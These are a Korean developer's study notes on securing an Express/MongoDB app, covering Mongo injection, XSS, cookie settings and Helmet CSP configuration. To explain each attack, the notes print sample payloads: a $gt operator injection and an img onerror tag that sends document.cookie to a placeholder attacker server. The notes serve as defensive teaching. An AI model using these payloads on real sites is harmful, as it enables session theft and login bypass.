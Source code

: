 
아래 내용은 진짜 최소한의 보안 대응에 대해 알려준거고
이것만으로는 부족해서 회사에 보안전담팀이 추가로 이것저것 많이 해야한다고함..-_-;


-----------------------------

# 몽고 injection

SQL injection은 SQL DB세계에서는 일반적인 공격방법인데,
입력값에다 파괴적인 쿼리문을 넣어 모든 테이블을 다 날려버린다든가 하는거임ㄷ;
근데 SQL을 쓰는 DB에서만 인젝션 공격을 할수있는게 아님.. 몽고도 가능.

방식 :

예를 들어 아래 코드에 내이름 대신 { '$gt': '' } 를 넣으면
모든유저가 들어있는 리스트를 받게 되고 결과는 항상 참이 됨.

    db.users.find( username: '내이름' )
    db.users.find( username: { '$gt': '' } )


대응 :

사용자가 입력값이 $기호 등을 못 쓰도록 제한하기.
쓸만한 패키지로는 express-mongo-sanitize 가 있는데
req의 body, query, params 에서 $ 와 . 를 걸러줌

    npm i express-mongo-sanitize

    const mongoSanitize = require('express-mongo-sanitize')
    app.use(mongoSanitize())

    혹은 아예 삭제하는게 아니라 특정문자로 대체하도록 옵션을 넣어 use할 수도 있음.

    app.use(mongoSanitize({
        replaceWith: '_';
    }))



# XSS (Cross-Site Scripting)

모든 보안공격의 80% 이상이 XSS라는 통계가 있을 정도로 널렸음;
침입하려는 사이트에 자바스크립트 코드를 심어 실행시키는 기법..
뷰페이지를 로드하는 과정에서 페이지에 포함된 JS코드가 전부 실행되는걸 악용

참고로 CSRF (Cross-Site Request Forgery)와는 다른거임
주로 CSFR를 하려고 XSS를 하므로 비슷하게 느껴질 수 있지만
XSS는 자바스크립트를 실행시키는거고, CSRF는 특정한 행동을 시키는거임.

방식 :

Stored XSS

    이 방식의 예는 사용자가 게시글작성 등의 입력폼에
    스크립트 코드를 넣어 전송하는거다. 서버에 그 코드자체가 저장됨.
    시도할수있는 방법이 매-우 다양함;

  - 매우기초적인 방법은 script태그를 직접 넣는거임..
    글제목을 이렇게 해서 올리면 이제 저 글 페이지에 접속하는 사람들은 저런 알림창을 보게됨;

        <script>alert('Fxxk you!')</script> 

  - 이미지태그src나 이벤트속성을 쓰는방법도 있음
    내가 해커라고 치고 먼저 해킹용서버,페이지를 만들어놓자. 그다음
    쿠키를 훔치고싶은 사이트의 게시판 등에 아래와같은 이미지 태그를 넣어 글작성.

        <img src="#" onerror="location.href('http://해킹용서버/쿠키내놔?cookie=' + document.cookie);">

    이제 이 페이지로 누군가 오면 저 이미지를 로드 시도하다가 저 주소로 이동하게 됨
    근데 저 url을 보면 그사람의 쿠키정보를 쿼리에 넣어 요청하게 해놨음..
    이런 식으로 쿠키/세션정보 같은 걸 털수있는거임

Reflected XSS

    이 방식은 보통 URL파라미터(특히 GET)에 스크립트를 넣어
    서버에 저장되지 않고 즉시 스크립트가 실행되게 함.
    브라우저 자체에서 차단하는 경우가 많아 상대적으로 성공 어려움.


대응 :

Stored XSS에 대응하기 위해..
텍스트입력폼에 HTML코드를 작성할 수 없도록 제한하자.

  - express-validator 이용

    express-validator 패키지 깔면 joi처럼 유효성검사도 해주고
    데이터sanitizing과 HTML이스케이핑 기능도 제공.

        npm i express-validator

        const { query, validationResult } = require('express-validator');

        app.use(express.json());
        app.get('/hello', query('person').notEmpty().escape(), (req, res) => {    // 미들웨어자리에 저렇게 넣어줌.
            const result = validationResult(req);
            if (result.isEmpty()) {
                return res.send(`Hello, ${req.query.person}!`);     // 검증할데이터가 쿼리스트링의 person값.
            }
            res.send({ errors: result.array() });
        });

    자세한 내용과 더 많은 기능은
    https://express-validator.github.io/docs/guides/getting-started 참고.



  - 또는 joi + sanitize-html 이용

    joi에는 HTML이스케이핑 기능이 없지만, 조이는 확장성이 좋아서
    내가 직접 HTML이스케이핑 규칙을 만들어 조이스키마에서 쓸수있음
    (validationSchemas.js 파일 참고)

    규칙 작성하는 데에는 sanitize-html 패키지를 썼음.

        npm i sanitize-html
        const sanitizeHTML = require('sanitize-html')



# 쿠키/세션 설정

app.js에 작성한 sessionConfig 말하는거임..

httpOnly: true
로 설정하면, 클라측 스크립트로 쿠키접근 못하게 제한가능.
만약 해커가 크로스사이트스크립팅 결함을 이용해 어떤사용자를
쿠키/세션정보요구하는 나쁜URL로 유인해도 브라우저가 서드파티에 쿠키를 노출하지 않음

secure: true
이건 나중에 배포시에는 https로만 액세스하게 해야할테니 필요하겠지만
지금 당장 내 앱에 적용하면 문제생김..

name: 'connect.sid를대체할만한너무간단하지않은이름'
원래 기본적으로 connect.sid라는 이름의 쿠키가 사용되는데
이걸 불특정다수의 쿠키/세션을 노린 공격으로부터 조금이나마 보호하기 위해
디폴트 쿠키이름을 다른걸로 설정해두는거임.



# 보안 라이브러리 Helmet.js

인기많은 보안패키지 헬멧을 써보자. 
10개넘는 미들웨어로 사용할 수 있는데 전부 HTTP헤더에 대한 내용임
https://helmetjs.github.io/ 참고

    npm i helmet

    const helmet = require('helmet')
    app.use(helmet())

그런데 이상태로 실행해보면 contentSecurityPolicy 미들웨어 때문에
부트스트랩 Splash Mapbox 전부 로딩 실패 뜸..
(그래서 임시로 helmet({ contentSecurityPolicy: false })로 use함)

CSP (Content Security Policy) 설정은
위에서 얘기한 크로스사이트 스크립팅에 대응할 수 있는 방법중 하나임.
내 웹사이트에서 각종데이터들의 출처로 사용할수있는 URL 등을 미리 지정해두고
그 이외의 곳으로 요청보내려고 하면 막고 오류띄워줌.

디폴트는 아래와 같음

    default-src 'self';
    base-uri 'self';
    font-src 'self' https: data:;
    form-action 'self';
    frame-ancestors 'self';
    img-src 'self' data:;
    object-src 'none';
    script-src 'self';
    script-src-attr 'none';
    style-src 'self' https: 'unsafe-inline';
    upgrade-insecure-requests

이걸 내가 사용하고있는 서비스들에 맞게 수정해줘야 함.
아래는 내가 브라우저콘솔에 뜨는 오류메시지 하나하나 보고 채워넣은거임 -_-...아오
맵박스Docs 뒤져보니까 CSP 설정에 관한 내용도 있어서 참고했음.

    app.use(helmet({
        contentSecurityPolicy: {
            useDefaults: false,
            directives: {
                defaultSrc: ["'self'"],
                scriptSrc: ["'self'", "'unsafe-inline'", "https://api.mapbox.com", "https://stackpath.bootstrapcdn.com", "https://cdn.jsdelivr.net"],
                objectSrc: ["'none'"],
                styleSrc: ["'self'", "'unsafe-inline'", "https://stackpath.bootstrapcdn.com", "https://fonts.googleapis.com"],
                styleSrcElem: ["'self'", "https://api.mapbox.com", "https://cdn.jsdelivr.net", "https://fonts.googleapis.com"],
                workerSrc: ["blob:"],
                connectSrc: ["'self'", "https://*.tiles.mapbox.com", "https://api.mapbox.com", "https://events.mapbox.com"],
                imgSrc: ["'self'", "blob:", "data:", "https://res.cloudinary.com"],
                fontSrc: ["'self'", "https://fonts.gstatic.com"],
                upgradeInsecureRequests: [],
            },
        },
    }))

